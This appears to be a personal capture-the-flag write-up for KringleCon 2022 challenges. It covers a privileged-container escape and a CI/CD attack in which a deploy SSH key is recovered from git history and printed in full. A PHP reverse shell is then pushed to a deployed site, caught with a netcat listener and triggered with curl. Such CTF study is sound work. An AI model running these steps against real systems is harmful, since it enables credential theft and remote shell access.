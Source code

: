 # Clone with a purpose

![Pasted image 20221208194235](https://user-images.githubusercontent.com/50979196/209268639-cfbfa8e6-fe77-4c24-b277-78b449d24b49.png)



```
git clone https://haugfactory.com/asnowball/aws_scripts.git

```

![Pasted image 20221208194711](https://user-images.githubusercontent.com/50979196/209268789-29ab886d-0c91-4d81-920c-a23ad8c9e45b.png)

# Prison escape
Hint from
https://learn.snyk.io/lessons/container-runs-in-privileged-mode/kubernetes/

![Pasted image 20221208190025](https://user-images.githubusercontent.com/50979196/209268820-12ac80e0-49d8-42b6-a69b-035519137082.png)



![[Pasted image 20221210130327.png]]
![Pasted image 20221208192822](https://user-images.githubusercontent.com/50979196/209268882-416454ed-df4a-4b4c-8973-2d64d863ac5c.png)

```

082bb339ec19de4935867 
```

```
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

Section Mounting Disk - Poc1 
```

# Jolly CI/CD
![Pasted image 20221210132309](https://user-images.githubusercontent.com/50979196/209268914-d55c2993-e461-48f9-8551-29ac6043d6ce.png)


hint 1 
Switching Hats
_From: Tinsel Upatree
Terminal: Jolly CI/CD
If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.

hint2 
Commiting to Mistakes
_From: Tinsel Upatree
Terminal: Jolly CI/CD
The thing about Git is that every step of development is accessible – even steps you didn't mean to take! `git log` can show code skeletons.

![Pasted image 20221210131432](https://user-images.githubusercontent.com/50979196/209268968-05e65dfb-d808-4281-a05d-cd31bfc3086a.png)

```
sudo git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```
![Pasted image 20221216103854](https://user-images.githubusercontent.com/50979196/209268994-4b9f4288-4d87-496c-9086-045fac92be68.png)

url from the elf outside
![Pasted image 20221210140021](https://user-images.githubusercontent.com/50979196/209269020-53b8afde-0826-45b4-a630-3ce9a554e558.png)


im thinking the hint may refer to doing a sudo git clone
then doing a git checkout of any mistakes 'whoops'

```
commit e2208e4bae4d41d939ef21885f13ea8286b24f05
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:43:53 2022 -0700

    big update

commit e19f653bde9ea3de6af21a587e41e7a909db1ca5
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:54 2022 -0700

    whoops
```

mistake made in added assets and fixed in whoops
```
commit abdea0ebb21b156c01f7533cea3b895c26198c98
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets
```

![Pasted image 20221210153628](https://user-images.githubusercontent.com/50979196/209269155-68109f5b-d3fb-4b0e-ae9e-4d39c754d2aa.png)


```
sudo git checkout abdea0ebb21b156c01f7533cea3b895c26198c98
```

go to directory with .ssh/.deploy

from here, copy ssh key, run a clone with it

```
git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
```

private key
```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```

Looking at this there is a file that shows a runner will update the site with anything i push to main. i can upload a php shell to the repo and the runner will add it to the site 
php shell
```
https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
```


```
git add 'shell.php'
git commit -m 'say something'
git push ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git main
```

```
type ``` screen``` to create another screen
ctrl+a CTRL+c (now have 2 screens to alternate)
nc -nvlp 1234
ctrl + a (twice?) to move back a screen
```
```
curl http://wordpress.flag.net.internal/shell.php
```


![Pasted image 20221216093650](https://user-images.githubusercontent.com/50979196/209269264-2e211c08-41db-40bf-b875-97f837e881c3.png)

![Pasted image 20221216093741](https://user-images.githubusercontent.com/50979196/209269285-1d7f0d34-9ec8-4f3e-98a0-c178e4f6d8c9.png)



oI40zIuCcN8c3MhKgQjOMN8lfYtVqcKT
